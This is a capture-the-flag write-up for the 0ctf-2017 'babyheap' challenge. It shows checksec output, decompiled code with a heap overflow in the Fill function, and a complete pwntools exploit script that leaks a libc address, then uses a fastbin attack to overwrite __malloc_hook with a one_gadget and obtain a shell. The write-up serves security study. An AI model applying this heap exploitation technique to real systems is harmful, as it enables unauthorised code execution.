# 0ctf-2017 babyheap

## checksec

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes	0		2	babyheap_69a42acd160ab67a68047ca3f9c390b9

```

## reverse

It is a standard, baby heap elf. We can malloc a content buffer and set the buffer's size through inputting 1，while we can set the size of inputs if we choose 2 to fill the buffer content. If malloc $x$ and input $y$ ($x < y$), the heap buffer will be overflowed.

```c
struct MemItem
{
  __int64 alloc_flag;
  __int64 size;
  unsigned __int8 *addr;
};

__int64 __fastcall Fill(MemItem *a1)
{
  __int64 result; // rax
  int index; // [rsp+18h] [rbp-8h]
  int size; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = get_int();
  index = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].alloc_flag);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = get_int();
      size = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = read_n(a1[index].addr, size);
      }
    }
  }
  return result;
}
```

## exploit

- Leak: If there are 3 adjacent chunks, we can change the size field of 2nd chunk by overflow 1st chunk. Then we dump 2nd chunk will dump the content of 3rd chunk too.If 3rd chunk is a small bins chunk and is free, we will get a add of $main\_arena+x$.
- Exploit: fasten attack+one_gadget+malloc_hook.

```python
from pwn import *

#context.log_level = 'debug'
#ubuntu_16_04_4_off = 0x3c4b20 - 0xf1147
off = 0x3a5620 - 0x41374
def alloca(size):
    r.sendlineafter("Command: ", '1')
    r.sendlineafter("Size: ", str(size))

def fill(index, content):
    r.sendlineafter("Command: ", '2')
    r.sendlineafter("Index: ", str(index))
    r.sendlineafter("Size: ", str(len(content)))
    r.sendafter("Content: ", content)

def free(index):
    r.sendlineafter("Command: ", '3')
    r.sendlineafter("Index: ", str(index))

def dump(index):
    r.sendlineafter("Command: ", '4')
    r.sendlineafter("Index: ", str(index))
    r.recvuntil("Content: \n")
    content = r.recvline()
    return content

r = remote('192.168.203.131', 2017)
#r = process('./babyheap_69a42acd160ab67a68047ca3f9c390b9',
#        env = {'LD_PRELOAD': './libc.so.6_b86ec517ee44b2d6c03096e0518c72a1'}
#)
#gdb.attach(r, '''
#continue
#''')

alloca(16) # 0
alloca(96) # 1
alloca(16) # 2
alloca(16) # 3
alloca(256) # 4
alloca(512) # 5
#pause()

fill(2, (p64(0) * 3) + p64(0x41)) # wide 3 chunk
fill(4, (p64(0) * 3) + p64(0xf1)) # fake chunk in 4
free(3)
alloca(48) # 3
fill(3, (p64(0) * 3) + p64(0x111))
free(4)

main_arena_addr = u64(dump(3)[-9:-1]) - 0x58
print "[+] main_arena = 0x%x" % main_arena_addr
one_gadget = main_arena_addr - off
print "[+] one_gadget = 0x%x" % one_gadget
malloc_hook = main_arena_addr - 0x10
print "[+] __malloc_hook = 0x%x" % malloc_hook
fill(2, (p64(0) * 3) + p64(0x21))

# fastbin attack
free(1)
fill(0, (p64(0) * 3) + p64(0x71) + p64(malloc_hook - 0x20 - 3))
alloca(96) # 1
alloca(96) # 4
fill(4, '\0' * 3 + p64(0) * 2 + p64(one_gadget))
alloca(20)

r.interactive()

```

